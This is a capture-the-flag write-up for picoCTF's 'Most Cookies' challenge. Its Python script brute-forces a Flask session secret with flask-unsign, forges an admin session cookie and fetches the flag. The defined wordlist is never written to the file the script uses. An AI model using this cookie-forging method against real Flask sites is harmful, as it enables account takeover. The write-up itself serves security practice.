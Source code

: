 <h1>Most Cookies</h1>
<h3>Description</h3>
<pre>
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! <a href='https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py'>server.py</a> http://mercury.picoctf.net:65344/
</pre>
<h3>Solution</h3>

```python3
import subprocess
import requests

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
url = 'http://mercury.picoctf.net:65344/'
file = 'test'
secret = subprocess.run(
                ['flask-unsign','-u','--server',url,'--wordlist',file,'--no-literal-eval'],
                capture_output=True,
                text=True
        )
result = secret.stdout
new_payload = '{"very_auth":"admin"}'

generate = subprocess.run(
                ['flask-unsign','--sign','--cookie',new_payload,'--secret',result[2:-2]],
                capture_output=True,
                text=True
        )

cookies = {'session':generate.stdout[:-1]}
res = requests.get(url,cookies=cookies).text
start = '<code>'
end = '</code>'
index_start = res.find(start)
index_end = res.find(end)
print(index_end)
print(res[index_start+len(start):-43])

```
